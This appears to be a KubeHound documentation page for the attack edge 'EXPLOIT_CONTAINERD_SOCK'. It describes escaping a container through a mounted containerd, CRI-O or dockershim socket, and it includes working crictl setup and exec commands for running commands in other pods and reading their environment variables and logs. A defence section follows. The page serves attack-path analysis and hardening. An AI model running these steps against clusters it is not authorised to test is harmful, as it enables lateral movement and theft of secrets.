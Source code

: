 ```yaml
---
title: EXPLOIT_CONTAINERD_SOCK
---
```


<!--
id: EXPLOIT_CONTAINERD_SOCK
name: "Container escape: Through mounted container runtime socket"
mitreAttackTechnique: N/A - N/A
mitreAttackTactic: TA0008 - Lateral Movement
-->

# EXPLOIT_CONTAINERD_SOCK

| Source                                | Destination                           | MITRE                                                                |
| ------------------------------------- | ------------------------------------- | -------------------------------------------------------------------- |
| [Container](../entities/container.md) | [Container](../entities/container.md) | [Lateral Movement, TA0008](https://attack.mitre.org/tactics/TA0008/) |

Container escape via the `containerd.sock` file that allows executing a binary into another container.

## Details

When the `containerd.sock` (or other equivalent - see the list below) is mounted inside a container, it allows the container to interact with container runtime. Therefore an attacker can execute any command in any container present in the cluster. This allows an attacker to do some lateral movement across the cluster. 

## Prerequisites

Execution within a container process with the following unix socket being (or any parent directory) being mounted inside the container:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

:rotating_light: sockets mounted as readonly can still be used for this attack. :rotating_light: This can be demonstrated as follows:

```bash
# Create an alpine container with the docker socket mounted as readonly
docker run -v /var/run/docker.sock:/var/run/docker.sock:ro --rm -it alpine sh

# Within the alpine container execute a docker command
docker ps
```

See the [example pod spec](https://github.com/DataDog/KubeHound/tree/main/test/setup/test-cluster/attacks/EXPLOIT_CONTAINERD_SOCK.yaml).

## Checks

Look for any socket being mounted in the container by running a simple find command:

```bash
find / -name dockershim.sock -o -name containerd.sock -o -name crio.sock -o -name cri-dockerd.sock  2>/dev/null
```

## Exploitation

To exploit this vulnerability, we will use a CLI for Kubelet Container Runtime Interface (CRI) provided by Google for debugging purposes:  crictl.

```bash
apt update && apt install -f wget tar
wget https://github.com/kubernetes-sigs/cri-tools/releases/download/v1.27.0/crictl-v1.27.0-linux-amd64.tar.gz -O /tmp/crictl.tar.gz
tar xvf /tmp/crictl.tar.gz -C /tmp
```

This tools allows to interact with Kubernetes using a unix socket:

```bash
unix:///var/run/dockershim.sock
unix:///run/containerd/containerd.sock
unix:///run/crio/crio.sock
unix:///var/run/cri-dockerd.sock
```

Once you have the path for the mounted socket, configure `crictl` to use it:

```bash
MOUNTED_SOCK_PATH=/host/run/containerd/containerd.sock 
echo "runtime-endpoint: unix://${MOUNTED_SOCK_PATH}
image-endpoint: unix://${MOUNTED_SOCK_PATH}
debug: false" > /tmp/crictl.yaml && alias cc='/tmp/crictl --config /tmp/crictl.yaml'
```

Once everything is configured, you should be able to run command on another container of your choice.

To list all the pods: 

```bash
cc ps -a
```

Executing a command on another pod:

```bash
cc exec -s 05c862f55a017 hostname
``` 

### Notes

The `-s` is important otherwise, `crictl` will try to use the http endpoint to run the command, resulting in errors like:

```bash
FATA[0000] execing command in container: error sending request: Post "http://127.0.0.1:41903/exec/PUpJoUv0": dial tcp 127.0.0.1:41903: connect: connection refused
```

With crictl you can also access sensitive information:
+ `crictl inspect`: access env variable from any container
+ `crictl logs`: retrieve all the logs from any container

## Defences

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount for the following locations:

```bash
/var/run/dockershim.sock
/run/containerd/containerd.sock
/run/crio/crio.sock
/var/run/cri-dockerd.sock
```

## Calculation

+ [ExploitContainerdSock](https://github.com/DataDog/KubeHound/tree/main/pkg/kubehound/graph/edge/exploit_containerd_sock.go)

## References:

+ [CRICTL GitHub](https://github.com/kubernetes-sigs/cri-tools/blob/419e153f330a5f6175aa9b6a03b339080c58ca3e/docs/crictl.md)
+ [Debugging Kubernetes nodes with crictl](https://kubernetes.io/docs/tasks/debug/debug-cluster/crictl/)
